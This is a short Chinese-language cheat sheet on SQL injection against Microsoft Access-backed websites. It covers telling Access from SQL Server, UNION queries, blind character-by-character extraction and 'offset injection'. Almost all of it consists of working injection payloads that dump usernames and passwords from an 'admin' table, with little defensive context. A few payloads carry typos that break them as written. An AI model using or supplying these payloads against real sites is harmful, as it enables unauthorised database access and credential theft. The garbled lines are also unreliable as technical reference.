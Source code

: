 # ACCESS注入
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 判断数据库类型
####&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;代码查看:
```sql
    sysobjects 是SQL , msysobjects 是ACCESS,前提是允许访问系统表
    and (select count(*) from sysobjects)>0
    and (select count(*) from msysobjects)>0
    
    SQLServer: sysobjects页面正常，msysobject页面不正常
    ACCESS: sysobjects和加msysobjects的SQL语句后，网页显示都不正常
            msysobject后的网页显示正常

```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 联合查询法

```sql
    常规判断注入点，查询列数，Access只有一个库
    判断字段数: order by NUM   //根据页面反应得出字段数
    查表: UNION SELECT num,num+1... from admin
    查数据: UNION SELECT 1,admin,3,password from admin
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 逐字猜解法

```sql
    表名,列名可以搜索常见Access表列命名即可
    
    查表：and exists (select * from 表名)
    查列：and exists (select 列名 from 表名)
    查数据：1.确定长度 2.确定asc数据(asc编码)
           1.and (select top 1 len(列名) from admin)=5  //=换成<=5也成立，下同
           2.and (select top 1 asc(mid(列名,位数,1)) from admin)=97
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x04 偏移注入(能查表，不能查字段)

```sql
    判断字段数: order by NUM   //根据页面反应得出字段数
    爆出显示位: UNION SELECT 1,2,...,NUM from 表名
    查字段:union select1,2,3,4,5,6,7,8,9,10,* from admin 直到页面正常，否则不断用 * 代替减少NUM数
    
    字段数=order by 出的字段数-*号的字段数x2
    偏移注入: union select 1,2,3,4,5,6,7,8,9,10,* from (adminas a inner join admin as b ona.id=b.id)
            1,2,3,4,5,6,7,8,9,10, //上述公式这里理解为剩下的字段数就可以
```









